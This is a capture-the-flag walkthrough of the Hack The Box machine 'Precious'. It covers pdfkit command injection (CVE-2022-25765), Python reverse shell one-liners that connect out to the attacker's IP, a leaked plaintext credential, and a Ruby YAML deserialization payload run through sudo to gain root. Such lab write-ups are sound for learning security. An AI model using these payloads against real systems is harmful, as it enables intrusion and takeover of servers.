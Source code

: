 # Precious

## Summary

* [Info Gathering](#info-gathering)

## Info Gathering
First thing let's scan for the open ports:
```
[vecio@vecio ~]$ nmap 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 17:07 CEST
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.84 seconds
```
We know that there are 2 services open: SSH service on the port 22 and an HTTP server on the default port 80.
We can check out the web server, so we add the IP address to the `/etc/hosts` file:
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.189	precious.htb
```
We can now access the web server on the browser using its domain or the IP address.

The only functionality present is to convert a web page into a PDF file.
We can test that out by starting a python web server and trying to get its PDF file.
```bash
python -m http.server
```
We can now enter our IP address followed by the port which the python web server has been opened: `http://10.10.16.79:8000/` and get its PDF file.
We can get more information by reading the file metadata using the `Exiftool`, so `exiftool file.pdf`:
```
ExifTool Version Number         : 12.50
File Name                       : edlaxwm1d82couplf7vpkkm9b4nyht3g.pdf
Directory                       : .
File Size                       : 29 kB
File Modification Date/Time     : 2023:03:26 17:12:58+02:00
File Access Date/Time           : 2023:03:26 17:13:44+02:00
File Inode Change Date/Time     : 2023:03:26 17:12:58+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
We can see that the file has been created by the `pdfkit v0.8.6` ruby package.
We can use Google to search some known vulnerabilities about this package.

## Exploiting
We find [CVE-2022-25765: Command Injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) which allows us to inject a command if the URL is not sanitized.
Let's understand how the vulnerability works: an application could be vulnerable if it tries to render a URL that contains query string parameters with user input:
```ruby
PDFKit.new("http://example.com/?name=#{params[:name]}").to_pdf
```
If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF:
```ruby
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf
```
Calling `to_pdf` on the instance shows that the `sleep` command is indeed executing.
The `%20` is a URL-encoded space character, which allows the attacker to separate the injected command from the rest of the URL.
When PDFKit is used to generate a PDF from a URL, it first converts the URL into a command line argument string that is passed to a command line tool to generate the PDF.

So we can input the URL `` http://10.10.16.79:8000/?name=%20`sleep 5` `` to test the vulnerability and see that the operation takes 5 seconds to get the PDF file, so the website is vulnerable to this exploit.

## Reverse Shell
We can now execute a reverse shell script to get access to the server.
Let's start listening to connections on port `1234` using `Netcat`:
```
nc -lvnp 1234
```
now we can execute a python reverse shell using the exploit entering the following URL `` http://10.10.16.79:8000/?name=%20`export RHOST="10.10.16.79";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'` `` and get access to the server.

## User
Getting the user flag is quite simple, we can see we're logged in as the user `ruby`, looging around the directory `home` we find out that the flag is inside the `henry` directory, but we don't have permission to read the file `user.txt`.
Looking inside the our `ruby` directory using `ls -la` we can see a strange directory called `.bundle`, inside of which there is a file `config`, which contains a credential leak of the user `henry:Q3c1AqGHtoI0aXAYFH`.
We can now switch user or log in using SSH and get the flag: `su henry`.

## Root
First thing we check what commands the user is allowed to execute using `sudo -l`:
```
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
We can see that we can execute the the file `update_dependencies.rb` with ruby as `root` without using a password.
Let's check out that ruby file:
```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
We can see that the `list_from_file` function loads the `dependencies.yml` file using the `YAML.load()` method.
With a bit of research we can find that the `.load()` method is vulnerable to a [YAML Deserialization Attack](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/).
We can use a special payload, writing our own `dependencies.yml` file and make the script execute our code with root privileges:
Let's try the exploit writing our `dependencies.yml` file in the `/home/henry/` directory:
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "whoami"
         method_id: :resolve
```
and executing it using `sudo /usr/bin/ruby /opt/update_dependencies`.
We can see on top of the error the `root` output, so the command is executed as root.
Our file is executed instead of the original one because the path to the file passed in the method `File.read(dependencies.yml)` is relative, so depends on where the script is executed from, in our case the `/home/henry/` directory.

We can use this vulnerability to get a privileged reverse python3 `/bin/bash` shell on a different port, so we want the script to execute this command: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.79\",4999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/sh\")'`
So we listen on the port `4999` on our local machine:
```
nc -lvnp 4999
```
and execute the file on the server.
Once we got the `/bin/bash` shell we can `cd /root` and get the flag in the `root.txt` file/

